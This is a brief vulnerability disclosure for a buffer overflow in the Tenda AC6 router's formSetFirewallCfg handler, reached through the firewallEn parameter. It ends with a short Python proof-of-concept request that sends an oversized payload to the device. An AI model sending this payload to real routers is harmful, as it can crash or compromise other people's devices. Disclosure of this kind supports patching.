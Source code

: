 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/formSetFirewallCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10U_V1/14.png)

get value from firewallEn, then call strcpy, cause buff overflow





## POC
```
url = "http://192.168.1.13/goform/formSetFirewallCfg"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'firewallEn': payload})
``` 
